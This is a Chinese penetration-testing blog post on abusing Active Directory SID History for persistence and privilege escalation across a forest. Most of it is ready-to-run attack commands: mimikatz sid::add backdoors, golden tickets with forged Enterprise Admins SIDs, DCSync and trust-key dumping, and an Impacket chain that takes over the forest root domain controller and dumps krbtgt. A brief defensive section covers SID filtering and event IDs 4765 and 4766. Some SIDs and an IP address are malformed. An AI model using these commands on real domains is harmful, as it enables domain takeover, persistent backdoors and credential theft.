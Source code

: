 ```yaml
---
title: "SID-History"
date: 2023-09-28 08:46:23 +0800
category: 渗透测试
tags: [内网,渗透测试,域]
excerpt: SID-History
---
```

如果知道根域的SID那么就可以通过子域的KRBTGT的HASH值，使用mimikatz创建具有 Enterprise Admins组权限（域林中的最高权限）的票据。环境与上文普通金票的生成相同。
首先我们通过klist purge删除当前保存的Kerberos票据，也可以在mimikatz里通过kerberos::purge来删除。
然后通过mimikatz重新生成包含根域SID的新的金票
注意这里是不知道根域YUNYING.LAB的krbtgt的密码HASH的，使用的是子域NEWS.YUNYING.LAB中的KRBTGT的密码HASH。
然后再通过dir访问DC. YUNYING.LAB的共享文件夹，发现已经可以成功访问。
此时的这个票据票是拥有整个域林的控制权的。我们知道制作增强金票的条件是通过SIDHistory那防御方法就是在域内主机迁移时进行SIDHistory过滤，它会擦除SIDHistory属性中的内容。

## 一、SID History属性介绍
​    每个用户帐号都有一个关联的安全标识符（简称SID），SID用于跟踪安全主体在访问资源时的帐户与访问权限。为了支持AD牵移，微软设计了SID History属性，SID History允许另一个帐户的访问被有效的克隆到另一个帐户。
### 查询已经配置了sid history的用户
https://github.com/shigophilo/tools/blob/master/PowerView.ps1
```
Import-Module .\PowerView.ps1
Get-DomainUser | select sidhistory,cn
```
## 二、利用前提条件
​    \1. 当前域与其他域有信任关系，例如当前域与domain1.com和domian2.com存在双向信任
![img](imgs/SID-History/SID2.png)
​    \2. 开启SID History，与其中任意一个林开启SID History信任，即可使用下面的方法

```
netdom trust  /d:domain1.com current.com /enablesidhistory:yes
```
![img](imgs/SID-History/SID3.png)
### 查找域内所有的SIDHistory 
```
adfind -h DC -u ⽤⼾名 -up 密码 -f "&(objectcategory=person)(objectclass=user)(sidhistory=*)" sidhistory 
```
## 三、同一域内的持久化利用
​    SID History可以在同一个域中工作，即DomainA 中的常规用户帐户可以包含 DomainA SID，假如这个DomainA SID是一个特权帐户或组，那就可以在不作为域管 理员成员的情况下授予常规用户域管理员权限，相当于一个后门。
​    \* 普通的域用户user，已经获得其账号明文或者hash，并且该账号密码永不过期
![img](imgs/SID-History/SID1.png)
​    \* 将域管理员的SID赋值给普通域用户user，Mimikatz执行如下：

```
privilege::debug
sid::query /sam:user # 查看用户信息，如：SID
sid::patch
sid::add /sam:user /new:S-1-5-21-2056922362-3943291772-3165935835-500  # RID 500 默认域管理员账号
//也可以
sid::add /sam:user /new:administrator
sid::clear /sam:user # 清除SID History
```
![img](imgs/SID-History/SID4.png)
PS：如果在执行 sid::patch 或者 sid::add 的过程中出现如下错误，则需要开启SID History（参考二）
![img](imgs/SID-History/SID5.png)
​    \* 利用user账号（明文&hash）进行测试：
![img](imgs/SID-History/SID6.png)
![img](imgs/SID-History/SID7.png)
## 四、同一域树下的提权利用方式（Golden Ticket+SID History）
​    对于同一个域树中的父子域来说，如果获得子域中的高权限用户，就可以修改将该用户的SID赋予企业管理员权限，这样对于父域来说该用户也是高权限用户。假设我们已经拿下子域sub.domain.com的域控权限，即可以利用该方法在父域提权。需要的前提信息：
  （1）子域的Krbtgt Hash 和 域SID
  （2）父域的SID
​    \* 正常情况下在子域控上直接访问父域控的C盘会被阻止
![img](imgs/SID-History/SID8.png)
​    \* 使用Mimikatz 利用Golden Ticket+SID History的方式伪造企业管理员SID History（RID 519）

```
kerberos::golden /user:Administrator /krbtgt:Sub_HASH_KRBTGT /domain:sub.domain.local /sid:S-1-5-21-SUB-DOMAIN /sids:S-1-5-DOMAIN-519 /ptt
//访问父域域控
dir \\dc-01\c$

//还可以导出林根域 domain.local 用户 krbtgt 的Hash,然后制作票据访问父域
lsadump::dcsync /domain:domain.local /user:domain.local\krbtgt /csv
```
![img](imgs/SID-History/SID9.png)
​    如果目标系统有多级的域结构，可以通过该方法进行父域提权，进而拿到父域下的所有子域或者说是整个林。

## inter-realm key+SID History 获得林根域权限
![image-20230222150903157](imgs/SID-History/image-20230222150903157.png)
由图可知，只要我们获得了 iter-realm key 就能制作访问其他域任意服务的ST,然后在 ST中加上企业管理员的 SIDHistory，就可以以企业管理员身份访问域林中的任意服务。
那么如何获得 inter-realm key 呢?只要获得域林中任意域的域控权限即可通过相关工具查询出inter-realmkey。
下面介绍通过 mimikatz 获得 inter-realm key
+ 获得inter-realm key
```
//林 xie.com  子域:shanghai.xie.com  父域域控:ad.xie.com
//在子域的域控上通过mimikatz获取inter-realm key
mimikatz.exe "privilege::debug" "lsadump::trust /patch" "exit"
```
![image-20230222151147552](imgs/SID-History/image-20230222151147552.png)
获得如下信息:
获得rc4_hmac_nt 的值为 0f81015ca4691b714e9db485568e5e6b;
shanghai.xie.com 的域 SID  S-1-5-21-909331469-3570597106-3737937367;
xie.com 的 Enterprise Admins 的 SID 为 S-1-5-21-1313979556-36241294334055459191-519
+ impacket攻击
获得inter-realm key 后，就可以利用Impacket 执行如下命令进行攻击了
```
#生成高权限的黄金票据
python3 ticketer.py -nthash 0f81015ca4691b714e9db485568e5e6b -domain-sid s-1-5-21-909331469-3570597106-3737937367 -extra-sid 8-1-5-21-13139795563624129433-4055459191-519 -domain shanghai.xie.com -spn krbtgt/xie.com administrator
# 导入票据
export KRB5CCNAME=administrator.ccache
#获得高权限的 cifs/ad.xie.com 的 ST
python3 getST.py -debug -k -no-pass -spn cifs/ad.xie.com -dc-ip 10.211,55.4 xie.com/administrator
# 远程连接林根域控
python3 smbexec.py -no-pass -k shanghai.xie.com/administrator@ad.xie.com
#导出林根域内用户 krbtgt 的 Hash
python3 secretsdump.py -no-pass -k shanghai.xie.com/administrator@ad.xie.com -just-dc-user "xie\krbtgt" 
```
## 六、林信任的的提权利用
​    文章 [3] 提到一种利用林之间的双向信任关系结合SID History的进行提权方法：
​    按照跨林信任的SID过滤规则（禁止500<=RID<=1000）,我们可以仿造B林中的RID>1000，很多高权限的用户组都可以的RID都大于1000，如Domain Admins（3101）、 Exchange security groups和安装一些安全软件设置的组。
​    但是本人实际测试的过程中，给两个林开启相互的SID History信任，给其中的A域用户添加B域的DnsAdmins 组的SID，本想测试能否利用dnscmd远程加载dll的方式进行利用，但是多次试验均失败。（后续解决）
![img](imgs/SID-History/SID10.png)
六、如何判断已经开启了SID History？
​    \1. 导出活动目录查看用户是否有 sidHistory 属性
​    \2. 利用 ldapdomaindump 导出的domain_trusts.html 中 trustAttributes 字段 设置 [TREAT_AS_EXTERNAL](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/e9a2d23c-c31e-4a6f-88a0-6646fdb51a3c?redirectedfrom=MSDN) 标志（实际测试未出现）
​    \3. 日志记录：
​    \* 4765：SID历史记录被添加到一个帐户
​    \* 4766：尝试将SID历史记录添加到帐户的失败事件
结束语：

​    本人也是一点一点的慢慢学然后总结，其中难免有一些总结错误的点，希望大家能指点出来，感谢 sky_Hb_K1 师傅指出上篇《横向渗透之 [RDP]》的错误点。
